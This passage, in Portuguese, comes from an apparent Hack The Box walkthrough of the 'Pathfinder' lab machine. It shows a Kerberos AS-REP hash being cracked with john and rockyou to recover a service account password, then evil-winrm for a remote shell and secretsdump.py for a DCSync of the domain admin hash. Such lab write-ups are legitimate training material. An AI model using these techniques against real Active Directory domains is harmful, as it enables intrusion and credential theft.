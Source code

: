 Vamos salvar este ticket no arquivo `hash` e tentar quebrá-lo com o `john`.

```
┌──(hastur㉿hastur)-[~/Pathfinder]
└─$ echo '$krb5asrep$23$svc_bes@MEGACORP.LOCAL:73e00be48dcb9672655c008a25665eda$2e43937963ba72aeda130ab7f779f22a9bd1c5526fe6f70ae93c30beeb9266ef5a55c258b0bdca4f86706866d14f0fdff126ca6100e97e7873399243fab54231776f227db65352acec98a8b37fee5e33f1cba334254e60d724cef56a5d481db3fb5e3060274237748dc7bae98b5b1dbdc1a3e6512f9437d4e244ade19d8da1aef42b5a718696f5c4caafc779092d6b7bd03671083569feb0b8789fe16b27afe53afdfc417a347c8db69738c5593ec54f5c2d2e2d86d9fab115475a474940a5edc2876b22b13fe1e60b6642ca01c0830cd11222b0d0292ab62a8bd97732ab04f9778763e1a80ee18267f6914a1580a774' > hash
                                                                                                                                                                                                                                             
┌──(hastur㉿hastur)-[~/Pathfinder]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:05 DONE (2021-09-07 18:44) 0.1754g/s 1860Kp/s 1860Kc/s 1860KC/s Sherbear94..Shanelee
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
E conseguimos as credenciais `svc_bes:Sheffield19`.

Podemos utilizar o `evil-winrm` para acesso reoto. Ele pode ser instalado com o comando `sudo gem install evil-winrm`.

<img src="/htb/htb-pathfinder-5.png">

E conseguimos o shell!!
A flag `user.txt` se encontra no Desktop do usuário.

### Escalação de privilégios vertical

Como nosso usuário tem permissões `GetChangesAll`, podemos utilizar o `secretsdump.py` para conseguir a hash do administrador do DC.
